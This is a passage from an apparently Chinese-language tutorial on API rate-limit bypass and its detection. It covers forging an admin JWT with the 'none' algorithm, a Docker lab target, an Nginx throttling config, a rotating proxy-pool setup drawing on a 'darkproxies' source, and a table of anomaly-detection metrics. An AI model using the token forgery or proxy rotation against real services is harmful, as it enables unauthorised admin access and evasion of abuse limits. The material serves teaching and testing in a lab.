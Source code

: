 ### 2.3 JWT令牌篡改攻击
通过无效签名绕过：
```python
import jwt
malicious_token = jwt.encode(
    {"user_id": "admin", "exp": 9999999999},
    key="",  # 空密钥
    algorithm="none"
)
```

## 三、实验环境搭建指南
### 3.1 基于Docker的靶场系统
部署包含漏洞的API服务：
```bash
docker run -d -p 8080:8080 vulnapi/rate-limit-bypass:1.2
```

### 3.2 限流配置示例（Nginx）
```nginx
limit_req_zone $binary_remote_addr zone=api_limit:10m rate=10r/s;

location /api/ {
    limit_req zone=api_limit burst=20 nodelay;
    proxy_pass http://backend;
}
```

### 3.3 自动化绕过测试工具链
代理池配置示例：
```python
from scrappy_proxies import ProxyManager

proxy_mgr = ProxyManager(
    sources=[
        "https://proxy-list.xyz/api",
        "socks5://darkproxies.io/pool"
    ],
    rotation_interval=30
)
```

## 四、检测与监控方案

### 4.1 异常流量特征提取
关键检测指标矩阵：

| 指标类型        | 检测参数                          | 阈值算法         |
|-----------------|-----------------------------------|------------------|
| 请求频率        | 同源请求标准差                   | Grubbs异常检测   |
| 参数熵值        | 参数随机性评分                   | Shannon熵分析    |
| 协议特征        | HTTP头顺序异常度                 | 马尔可夫链模型   |
| 行为模式        | 成功/失败请求比率                | 贝叶斯分类器     |
